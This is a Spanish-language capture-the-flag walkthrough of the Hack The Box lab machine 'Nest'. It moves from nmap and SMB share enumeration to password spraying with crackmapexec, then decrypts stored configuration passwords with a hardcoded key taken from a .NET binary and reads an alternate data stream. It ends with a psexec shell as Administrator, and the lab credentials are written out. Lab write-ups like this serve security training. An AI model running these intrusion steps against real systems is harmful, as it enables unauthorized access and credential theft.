 ```yaml
---
description: '✍️ Autor: VbScrub🔍 Dificultad: Fácil 📅 Fecha de creación: 04/06/2020'
---
```


# Nest

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 10.10.10.178
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sC -sV -p- 10.10.10.178
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Durante el escaneo se identificaron los siguientes puertos abiertos:

* **Puerto 445 (SMB):** El puerto 445/tcp está abierto y ejecutando el servicio `microsoft-ds?`, lo que indica la posible presencia de un servicio SMB en el sistema.
* **Puerto 4386 (unknown):** El puerto 4386/tcp también está abierto y ejecutando un servicio desconocido. Según el fingerprinting de respuesta, el servicio se identifica como `Reporting Service V1.2`, lo que sugiere que permite a los usuarios ejecutar consultas en bases de datos mediante el formato HQK. Entre los comandos disponibles se encuentran `LIST`, `SETDIR`, `RUNQUERY`, `DEBUG` y `HELP`. Esta funcionalidad podría representar un posible vector de ataque si el servicio no está correctamente asegurado.

A continuación, se procederá a analizar cada uno de estos servicios en busca de posibles vectores de ataque.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p445,4386 -v 10.10.10.178
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ponemos el dominio en el `/etc/hosts`.

```bash
echo "10.10.10.178 nest.htb" >> /etc/hosts
```

Listamos recursos compartidos.

```bash
smbclient -L 10.10.10.178
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Listamos el contenido de los recursos compartidos.

```bash
smbclient \\\\nest.htb\\Users -N
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
smbclient \\\\nest.htb\\Data -N
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

En la ruta `/Shared/Templates/HR` hay un archivo interesante.

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Tenemos unas credenciales por lo que con los usuarios descubiertos antes realizamos fuerza bruta.

```bash
crackmapexec smb nest.htb -u usuarios -p 'welcome2019' --continue-on-success
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Intenté iniciar sesión con los tres usuarios y, al usar **TempUser**, obtuve un archivo, pero estaba vacío. Volví a acceder al recurso compartido **Data** como **TempUser** y descargué los archivos. Entre ellos, encontré un archivo llamado **RU\_Config.xml**.

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

En otro archivo (**config.xml**) encontramos también información.

<figure><img src="../../.gitbook/assets/image (9) (1) (1).png" alt=""><figcaption></figcaption></figure>

Entramos donde **Carl**.

```bash
smbclient -U ./TempUser //10.10.10.178/Secure$
```

<figure><img src="../../.gitbook/assets/image (10) (1).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Lo que estamos buscando es una línea del artículo que mencionamos antes, un algoritmo para descifrar el cifrado del archivo **RU\_Config.xml**. Quiero hacerlo rápido, así que voy a dotnetfiddle.net, realizar algunos ajustes al código y ejecutarlo con la contraseña cifrada que está en el archivo de configuración.

{% embed url="https://dotnetfiddle.net/" %}

El resultado es **xRxRxPANCAK3SxRxRx**. Bien, el usuario estaba claro, y ahora la contraseña está descifrada.

```
smbclient -U ./c.smith //10.10.10.178/Users
```

<figure><img src="../../.gitbook/assets/image (11) (1).png" alt=""><figcaption></figcaption></figure>

Seguimos investigando para escalar a **root**.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-24 110901.png" alt=""><figcaption></figcaption></figure>

{% embed url="https://superuser.com/questions/1520250/read-alternate-data-streams-over-smb-with-linux?source=post_page-----125aa20f9fea---------------------------------------" %}

```bash
allinfo "Debug Mode Password.txt"
```

<figure><img src="../../.gitbook/assets/image (13) (1).png" alt=""><figcaption></figcaption></figure>

Nos lo descargamos.

```
get "Debug Mode Password.txt":Password:$Data
```

Esto debería devolverte la contraseña en formato claro, que en este caso es **WBQ201953D8w**.

Con la contraseña obtenida, conéctate al servidor HQK:

```bash
debug WBQ201953D8w
```

Dentro del servidor, ejecuta el siguiente comando en el directorio LDAP para ver la configuración:

```bash
showquery 2
```

<figure><img src="../../.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

Esto debería devolverte las credenciales del **Administrador** en formato cifrado. En el ejemplo, la contraseña es **yyEq0Uvvhq2uQOcWG8peLoeRQehqip/fKdeG/kjEVb4=**.

```bash
echo "yyEq0Uvvhq2uQOcWG8peLoeRQehqip/fKdeG/kjEVb4=" | base64 --decode
```

Ejecuté el comando `file` sobre el archivo `HqKLdap.exe` y descubrí que es un ejecutable .NET. Lo copié a mi sistema Windows y lo abrí utilizando ILSpy. Dentro del archivo `HqKLdap`, en la sección `CR`, encontré la siguiente línea de código:

```csharp
return RD(EncryptedString, "667912", "1313Rf99", 3, "1L1SA61493DRV53Z", 256);
```

Reemplacé esta línea en el script de Nest y modifiqué el archivo `config.xml` con el nombre de usuario y la contraseña de "Administrator". Luego ejecuté el script y obtuve lo siguiente:

**Anterior:**

```
XtH4nkS4Pl4y1nGX
Administrator
```

**Nuevo:**

```
AJPcXFcqZ32B993fPwoHWA==
XtH4nkS4Pl4y1nGX
```

La contraseña obtenida es: `XtH4nkS4Pl4y1nGX`.

Ahora, intentemos obtener una shell utilizando la siguiente herramienta:

```bash
impacket-psexec Administrator:XtH4nkS4Pl4y1nGX@nest.htb
```

Con este comando, deberíamos obtener acceso como `Administrator`.

### 🔐 PRIVILEGIOS

Al estar dentro y ejecutar:

```bash
whoami
```

somos **root.**

<figure><img src="../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

